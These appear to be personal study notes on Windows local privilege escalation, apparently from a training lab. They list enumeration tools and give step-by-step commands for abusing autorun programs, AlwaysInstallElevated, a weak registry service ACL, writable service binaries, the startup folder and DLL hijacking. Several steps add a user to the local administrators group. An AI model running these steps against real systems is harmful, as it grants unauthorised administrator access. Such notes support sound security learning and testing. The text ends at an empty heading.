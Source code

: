# Exploitation

https://github.com/SecWiki/windows-kernel-exploits

WinPEAS - [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Windows PrivEsc Checklist - [https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

Sherlock - [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)

Watson - [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

PowerUp - [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

JAWS - [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)

Windows Exploit Suggester - [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

Metasploit Local Exploit Suggester - [https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)

Seatbelt - [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)

SharpUp - [https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)

## Escalation Paths

### Autorun
```
# Autorun
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe

# Accesschk
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file. We can move a malicious file to ```C:\Program Files\Autorun Program``` and once the administrative user logs on they'll be prompted to run the program.

### AlwaysInstallElevated
%% Can be found with PowerUp %%
1. Open command prompt and type: reg query HKLM\Software\Policies\Microsoft\Windows\Installer  
2. From the output, notice that “AlwaysInstallElevated” value is 1.  
3. In command prompt type: reg query HKCU\Software\Policies\Microsoft\Windows\Installer* 
4. From the output, notice that “AlwaysInstallElevated” value is 1.

Can be used with msf windows/local/always_install_elevated
### RegSVCACL
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

The output suggests that users belonging to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.
![[regsvc.png]]

Create a windows_service.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
1. Exit the text editor and compile the file by typing the following in the command prompt: **x86_64-w64-mingw32-gcc windows_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')** 
2. Copy the generated file x.exe to the Windows VM.
3. Open command prompt at type: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f  
4. In the command prompt type: sc start regsvc  
5. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: **net localgroup administrators**

### Executable Files
Open command prompt and type: 
```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"  
```
Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file.

Open command prompt and type: 
```
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"  
```
In command prompt type: sc start filepermsvc
Confirm the user was added to the local administrators: net localgroup administrators

### Startup Applications
```powershell
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
``` 

From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory. We can then move a meterpreter shell over.

Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.  
1. Logoff.  
2. Login with the administrator account credentials.
3. Wait for a session to be created, it may take a few seconds.

### DLL Hijacking
If a program is looking for an expected DLL which does not exist, this can be abused.

1. Open the Tools folder that is located on the desktop and then go the Process Monitor folder.  
2. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.  
3. In procmon, select "filter".  From the left-most drop down menu, select ‘Process Name’.  
4. In the input box on the same line type: **dllhijackservice.exe  
5. Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.  
6. Next, select from the left-most drop down menu ‘Result’.  
7. In the input box on the same line type: **NAME NOT FOUND  
8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.  
9. Open command prompt and type: **sc start dllsvc  
10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.
11. Open windows_dll.c in a text editor and replace the command used by the system() function to: **cmd.exe /k net localgroup administrators user /add**  
12. Exit the text editor and compile the file by typing the following in the command prompt: **x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll  
13. Copy the generated file hijackme.dll, to the Windows VM.
14. Place hijackme.dll in ‘C:\Temp’.  
15. Open command prompt and type: **sc stop dllsvc & sc start dllsvc**  
16. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: **net localgroup administrators**

### Binary Paths